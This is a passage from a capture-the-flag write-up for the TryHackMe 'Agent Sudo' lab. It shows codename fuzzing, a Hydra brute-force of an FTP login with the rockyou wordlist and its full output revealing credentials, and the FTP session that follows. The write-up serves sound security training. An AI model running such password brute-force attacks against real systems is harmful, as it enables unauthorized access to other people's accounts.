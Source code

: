 ### 3# What is the agent name?

After fuzzing the codename's (the suffix in Agent #), you'll eventually find that Agent __C__ returns another page. 

```
http://10.10.212.153/agent_C_attention.php
```

But firstly, the Agent's name is revealed as `Chris`.

And two other agents:

- Agent C
- Agent R
- Agent J

## [Task 3] Hash cracking and brute-force 

### 1# FTP

Credentials found to be `chris:crystal`.

```shell
kali@kali:~/Desktop/TryHackMe/agent-sudo$ hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.212.153 -V -I 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-24 14:23:04
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.212.153:21/
...
[21][ftp] host: 10.10.212.153   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-24 14:24:05
```

### 2# Zip

Lets try find the zip first. It's probably on the FTP server.

```shell
kali@kali:~/Desktop/TryHackMe/agent-sudo$ ftp target.thm
Connected to target.thm.
220 (vsFTPd 3.0.3)
Name (target.thm:kali): chris
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -lah
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Oct 29  2019 .
drwxr-xr-x    2 0        0            4096 Oct 29  2019 ..
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
```
